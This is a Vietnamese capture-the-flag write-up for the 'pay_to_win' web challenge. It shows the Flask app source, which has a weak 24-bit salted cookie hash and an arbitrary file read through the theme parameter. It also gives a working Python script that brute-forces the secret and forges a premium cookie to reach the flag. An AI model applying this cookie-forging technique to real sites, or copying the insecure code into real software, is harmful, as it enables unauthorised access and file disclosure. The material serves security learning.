



Challenge tiếp theo là pay_to_win 


Yeah web cho chúng ta một form đăng nhập 


"Not a premium user"!!! hmm có vẻ chúng ta cần đăng nhập với quyền premium để lấy được flag thì phải


Check thử cookie xem nào có vẻ nó cho chúng ta hai giá trị là data và hash


Check thử source code xem có thể được gì nào  

```from flask import Flask, request, render_template, redirect, make_response
from base64 import b64encode, b64decode
import hashlib
import random
import json

app = Flask(__name__)
users = {}


def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()


@app.route('/')
def index():
    if request.cookies.get('data') is None or request.cookies.get('hash') is None:
        return redirect('/login')

    data = request.cookies.get('data')
    decoded = b64decode(data)
    data_hash = request.cookies.get('hash')
    payload = json.loads(decoded)

    if payload['username'] not in users:
        resp = make_response(redirect('/login'))
        resp.set_cookie('data', '', expires=0)
        resp.set_cookie('hash', '', expires=0)
        return resp

    actual_hash = hash(data + users[payload['username']])

    if data_hash != actual_hash:
        return redirect('/login')

    if payload['user_type'] == 'premium':
        theme_name = request.args.get('theme') or 'static/premium.css'
        return render_template('premium.jinja', theme_to_use=open(theme_name).read())
    else:
        return render_template('basic.jinja')


@app.route('/login', methods=['GET'])
def get_login():
    return render_template('login.jinja')


@app.route('/login', methods=['POST'])
def post_login():
    username = request.form['username']

    if username not in users:
        users[username] = hex(random.getrandbits(24))[2:]

    resp = make_response(redirect('/'))
    data = {
        "username": username,
        "user_type": "basic"
    }

    b64data = b64encode(json.dumps(data).encode())
    data_hash = hash(b64data.decode() + users[username])
    resp.set_cookie('data', b64data)
    resp.set_cookie('hash', data_hash)
    return resp


if __name__ == '__main__':
    app.run()
```


Yeah có vẻ chúng ta dễ dàng thấy được khi đăng nhập nó sẽ set sẵn cho chúng ta user_type là basic nhiệm vụ của mình là chuyển sang premium để lấy được template chứa flag, tuy nhiên khó khăn ở đây là tác giả đính kèm giá trị hash cùng với khóa được random một chuỗi ký tự 24 bits. Câu hỏi ở đây là chúng ta có thể brute force và tìm ra khóa ở đây được không nếu được chúng ta chỉ cần set lại giá trị data và hash và sẽ đăng nhập được với quyền user_type và đây là đoạn code của mình

```
import random
from base64 import b64encode, b64decode
import hashlib
import json


data_cookie = 'eyJ1c2VybmFtZSI6ICJuZ29jIiwgInVzZXJfdHlwZSI6ICJiYXNpYyJ9'
hash_cookie = '8529e1f31c3682725b54d02c3a07b5582bea7844624d3804aa813db2a52931bb'
username = 'ngoc'

def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()
def crack():
    
    data = {
        "username": username,
        "user_type":"basic"
    }
    for i in range(0xFFFFFF):
        r = hex(i)[2:]
        b64data = b64encode(json.dumps(data).encode())
        data_hash = hash(b64data.decode() + r) 
        if b64data.decode() == data_cookie and data_hash == hash_cookie:
            return r
        i += 1
        if i % 1000000 == 0:
            print(f"{i=}")   
def force(r):
    data = {"username": username, "user_type":"premium"}
    
    b64data = b64encode(json.dumps(data).encode())
    data_hash = hash(b64data.decode() + r)
    
    print(f"{b64data=} {data_hash=}")
    
    
if __name__ == "__main__":
    # print(crack())
    r = "9fba4d"
    force(r)
```
Vì chỉ sử dụng 24bits thôi nên việc brute force khóa không quá khó khăn chúng ta dễ dàng crack được khóa




Và bây giờ đơn giản là set lại hai giá trị mình đã nói mà thôi 




Yeah bây giờ truyền lại vào cookie và đăng nhập thôi và boom chúng ta đã đăng nhập với quyền premium


Nhưng có vẻ flag không ở đây, hmm tìm lại trong source code thử xem và mình phát hiện trong Dockerfile path này


Và flag có vẻ nằm trong file nguồn trên trang web 


Và boom chúng ta đã có được flag

